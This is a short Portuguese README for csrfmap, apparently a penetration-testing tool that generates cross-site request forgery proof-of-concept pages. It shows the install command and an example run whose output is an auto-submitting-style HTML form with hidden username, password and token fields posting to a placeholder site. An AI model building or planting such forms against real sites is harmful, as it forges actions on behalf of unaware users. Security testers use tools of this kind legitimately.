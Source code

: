 # Instalação

csrfmap requer **python3** e para baixá-lo só usar:

```sh
pip3 install csrfmap
```

# Executando csrfmap

```console
csrfmap -a "http://exemplo.com" -m post -p form1 -n username password token -v victor password 132423542

 _____ _____ _____ _____ _____ _____ _____ 
|     |   __| __  |   __|     |  _  |  _  |
|   --|__   |    -|   __| | | |     |   __|
|_____|_____|__|__|__|  |_|_|_|__|__|__|   
                                                       
                        v0.0.2 - @joaoviictorti   

csrf.html:
<!DOCTYPE html>
<html lang="pt-br">
<body>
	<form action="http://exemplo.com" method="post">
	<input name="username" value="victor" type="hidden"/>
	<input name="password" value="password" type="hidden"/>
	<input name="token" value="132423542" type="hidden"/>
	<input type="submit">Enviar</input>
	</form>
</body>
</html>

```

<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>

